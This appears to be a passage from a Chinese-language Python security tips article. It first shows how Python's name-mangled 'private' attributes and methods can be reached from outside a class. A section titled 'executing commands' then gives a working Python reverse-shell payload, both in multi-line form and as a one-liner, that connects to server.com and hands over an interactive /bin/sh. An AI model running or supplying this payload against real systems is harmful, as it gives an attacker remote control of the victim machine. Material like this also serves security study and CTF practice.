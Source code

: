 - 访问python中的伪Private属性和函数


python中以双下划线开头的函数和属性是Private的,但是这种Private并不是真正的,而只是形式上的,用于告诉程序员,这个函数不应该在本类之外的地方进行访问,而是否遵守则取决于程序员的实现

```python
>>> class test():
...     __a = 1
...     def __init__(self):
...         self.x= 1
...     def __func(self):
...         print "1111"
...
>>>
>>>
>>> dir(test)
['__doc__', '__init__', '__module__', '_test__a', '_test__func']
>>> test._test__a#变量可以通过这种方式直接访问
1
>>> test._test__func
<unbound method test.__func>
>>> test._test__func()
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
TypeError: unbound method __func() must be called with test instance as first argument (got nothing instead)
>>> test._test__func(test())#函数的不能直接调用必须要涉及到test的实例化
1111
#不实例化，直接访问
```

### 0x7、执行命令

```
#执行反弹shell的命令

import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("server.com",8000));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);

#一句话格式
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("server.com",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

**参考：**

https://xianzhi.aliyun.com/forum/topic/52